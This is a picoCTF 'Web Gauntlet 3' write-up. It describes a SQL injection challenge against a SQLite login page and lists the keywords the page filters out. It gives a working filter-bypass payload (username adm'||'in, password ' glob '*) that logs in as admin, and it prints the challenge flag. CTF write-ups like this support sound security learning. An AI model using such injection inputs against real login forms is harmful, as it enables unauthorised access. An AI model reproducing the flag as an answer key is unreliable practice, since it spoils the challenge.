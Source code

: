 # Web Gauntlet 3
### Points: 300

## Category
#### Web Exploitation

## Question
#### Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:8650/ Filter: http://mercury.picoctf.net:8650/filter.php
### Hint
>#### 1. Each filter is separated by a space. Spaces are not filtered.
>#### 2. There is only 1 round this time, when you beat it the flag will be in filter.php.
>#### 3. sqlite

 
## Solution
#### Look at this website main page http://mercury.picoctf.net:8650/
![pico](a/04.png)
#### Look at this website filter page http://mercury.picoctf.net:8650/filter.php
![pico](a/01.png)

#### This login Page Filters:  `or and true false union like = > < ; -- /* */ admin` 
#### Bypass filter: 
```base
Username = adm'||'in
Password = ' glob '*
```
![pico](a/02.png)
#### After logging in, navigate to `filter.php` and retrieve the flag. 
![pico](a/1.png)

## Flag
`picoCTF{k3ep_1t_sh0rt_6fdd78c92c7f26a10acd3ece176dea4d}`